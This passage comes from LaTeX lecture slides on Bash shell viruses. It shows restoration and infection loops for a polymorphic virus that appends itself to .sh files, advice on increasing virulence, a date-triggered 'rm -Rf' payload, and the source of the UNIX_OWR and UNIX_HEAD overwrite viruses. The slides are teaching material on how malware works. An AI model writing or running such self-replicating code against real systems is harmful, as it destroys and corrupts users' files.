\only<3>{
\includegraphics[width=8cm]{figures/process-vbash1-infection}}
\end{center}

\end{frame}



\begin{frame}
  \frametitle{Polymorphism}
\begin{itemize}
\item The \alert{anti-antivirus} countermeasure strategy consists in varying the code from copy to copy.
\item The modified code will be different in form, but will perform the same tasks.
\end{itemize}
\end{frame}
\begin{frame}
  \frametitle{Polymorphism: Strategy Used}
  \begin{itemize}
\item The approach we will adopt consists in \alert{randomly permuting the lines.}
\item We will then need to adapt the reinfection prevention:
\begin{itemize}
\item We must detect infection regardless of the permuted form of the virus:
  \begin{center}
    $\to$ we will use a signature (simpler).
    \end{center}
\item For the virus to execute when the file is launched, the inverse permutation must be performed.
\end{itemize}
\end{itemize}
\end{frame}




\begin{frame}[fragile]
  \frametitle{Polymorphism: Strategy Used}
\begin{itemize}
\item Each line of the virus main body contains a comment at the end of the line of the form {\color{blue}\texttt{\#@n\#} }
\item where {\color{blue} \texttt{n}} is the line index.
\item The framing with {\color{blue} \texttt{\#@.\#}} prevents selecting multiple lines with a grep.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Draft of the Restoration Code}
  \begin{scriptsize}
\begin{verbatim}
######## restoration code
LI=8  # number of lines of infection code
echo "" >  temp.sh
nb=1
while [ $nb -le $LI ]   #restoration loop for viral code
do
    cat $0 | grep "#@$nb#"  >> temp.sh
    nb=$(($nb+1))
done
chmod u+x temp.sh && ./temp.sh ## launch the viral code
rm temp.sh ## clean up
exit 0
########## infection code ##########
echo "5" #@5#
echo "8" #@8#
echo "2" #@2#
echo "start" #@1#
echo "3" #@3#
echo "7" #@7#
echo "6" #@6#
\end{verbatim}
\end{scriptsize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Polymorphism: Infection Code}
  For all .sh files in the current directory:
\begin{itemize}
\item It tests for reinfection by checking the presence of a signature.
\item For files to infect, it adds lines one by one randomly:
  \begin{itemize}
  \item It enumerates line numbers using an arithmetic trick: the integers
    $$ n_i=(r * 3^i) \bmod 17 \mbox{ for } i=0,\ldots,16 $$
    are distinct and random if $r$ is.
    \item  It selects the line containing \#@$n_i$\# with a grep.
  \end{itemize}
  \end{itemize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Infection Code with Random Line Selection}
  \begin{block}{}
\begin{scriptsize}
\begin{verbatim}
LI=16
for i in *.sh	 #@1#  # "ixYT6DFArwz" is the signature
do   #@2#
    if  [  -z "$(grep ixYT6DFArwz $i)" ] #@3#  # search for signature
    then # infection  #@4#
        #@5#
        #@6#
        nb=1; echo $i;  #@7#
        r=$(( ($RANDOM % ($LI+1)) + 1))  #@8#
        while [ $nb -le $LI ] #@9#
        do    #restoration loop for code #@10#
            r=$((($r*3) % ($LI+1))) #@11# random line choice
            cat $0 | grep "#@$r#"  >> $i #@12# add the line
            nb=$(($nb+1)); echo $r #@13#
        done  #@14#
    fi #@15#
done   #@16#
\end{verbatim}
\end{scriptsize}
\end{block}
\end{frame}



\subsection{Other Possible Improvements}

\begin{frame}
\frametitle{Increasing Virulence}

\begin{itemize}
\item The action is limited because it is restricted to the current directory.
\item Virus infection raises the problem of distinguishing scripts from compiled files.
\item Virulence can be increased by testing for the presence of the string \texttt{\#!/bin/bash} at the beginning of the file.
\item Virulence can also be increased by performing a recursive traversal of the file tree.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Placing a Payload}


\begin{itemize}
\item We can choose to execute it only if the infection is successful.
\item Or if a sufficient number of files have been infected.
\item Its execution can be linked to a condition, for example
\begin{semiverbatim}
if test "\$(date +\%b\%d)" == "Jan21"; then
 rm -Rf
fi
\end{semiverbatim}
\end{itemize}
\end{frame}

\section{Real-World Examples}

\subsection{The \texttt{UNIX\_OWR} Virus}


\begin{frame}[fragile]
\frametitle{The \texttt{UNIX\_OWR} Virus}
\texttt{UNIX\_OWR} (for overwrite) is a simple and small virus,
it works by overwriting code.

\medskip

\begin{block}{The \texttt{UNIX\_OWR} Virus}
\begin{semiverbatim}
for file in *; do # for every file
    cp $0 $file # overwrite the target file with the virus
done
\end{semiverbatim}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Characteristics of \texttt{UNIX\_OWR}}
\begin{itemize}
\item Its scope is limited to the current directory.
\item It infects all files (executable or not).
\item The virus overwrites itself, causing the error message
\begin{center}
\texttt{cp : '.\slash v' and 'v' are the same file}
\end{center}
which may alert the user.
\item The virus is not stealthy: all infected files have the same size.
\end{itemize}
\end{frame}





\subsection{The \texttt{UNIX\_HEAD} Virus}

\begin{frame}[fragile]
\frametitle{The \texttt{UNIX\_HEAD} Virus}

\begin{block}{The \texttt{UNIX\_HEAD} Virus}
\begin{small}
\begin{semiverbatim}
for F in * do  {\color{gray} \# iterate over files }
   do
\alert<2>{      if[ "\$(head -c9 \$F 2 >> /dev/null)" == "\#!/bin/bash"]
         {\color{gray}\# if the first 9 characters are "\#!/bin/bash"}}
      then
\alert<3>{         HOST=\$(cat \$F | tr '\begin{math}\backslash\end{math}n' \begin{math}\backslash\end{math}xc7))
         {\color{gray}\# copy of target into \$HOST}}
\alert<4>{         head -11 $0 > $F 2> /dev/null
         {\color{gray}\# overwrite the target file }
         {\color{gray}\# with the first 11 lines }}
\alert<5>{         echo \$HOST | tr \begin{math}\backslash\end{math}xc7 '\begin{math}\backslash\end{math}n' >> \$F 2> /dev/null
         {\color{gray}\# the target file content is appended}
         {\color{gray}\# after the viral code}}
      fi
   done
\end{semiverbatim}
\end{small}
\end{block}
\end{frame}


\begin{frame}
\frametitle{Characteristics of \texttt{UNIX\_HEAD}}
\begin{itemize}
\item It works by code appending.
\item Its scope is limited to the current directory.
\item There is no reinfection management.
\item The virus is not stealthy, infected files tend to grow in size.
\item The \texttt{tr} command produces errors, making the virus visible.
\end{itemize}
\end{frame}


\section{Conclusion}

\begin{frame}
  \frametitle{Key Takeaways}
  This chapter covers viruses in interpreted languages:
  \begin{itemize}
  \item Understand the basics of Bash scripting.
  \item Understand the mechanism of a simple Bash virus (\texttt{vbashp}).
  \item Understand reinfection prevention and its strategies.
  \item Understand polymorphism as an anti-antivirus technique.
  \item Know real-world examples of Shell viruses (\texttt{UNIX\_OWR}, \texttt{UNIX\_HEAD}).
  \end{itemize}
\end{frame}

\end{document}
